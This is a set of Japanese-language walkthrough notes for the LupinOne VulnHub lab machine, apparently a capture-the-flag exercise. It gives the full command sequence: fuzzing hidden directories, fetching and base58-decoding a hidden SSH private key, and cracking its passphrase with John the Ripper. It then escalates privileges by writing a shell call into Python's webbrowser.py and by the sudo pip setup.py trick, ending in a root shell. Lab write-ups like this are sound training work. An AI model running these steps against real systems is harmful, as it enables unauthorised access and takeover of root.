## LupinOne


### ポートスキャンまで同じ
- 22,80

### 画像を調べる
- ステガノグラフィを調べる

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを確認する。使われているであろう、ユーザ名がわかる

### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
- `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`
### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- コピーする
- CyberChefでペーストして、searchにbase58と入力する。Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
- Permissionを変更する
  - `chmod 700 key`
  - なぜか`chmod 777 key`にするとsshが繋がらない

### パスフレーズの解析
- sshのパスフレーズを解析するのにssh2johnを使うが、Evilboxの時と同じように改良する
- `github johntheripper bleeding-jumbo ssh2john py`で検索したコードをコピーする
- `cat > ssh2john_v2.py` ペーストする。注意点は改行してから`ctrl + c`で抜けること
- `chmod +x ssh2john_v2.py`
- john the ripperで使えるようにフォーマットを変換する
  -  `python3 ssh2john_v2.py key > passphrase.txt`
- 暗号解析
  - `john passphrase.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
- パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name webbrowser* 2> /dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`




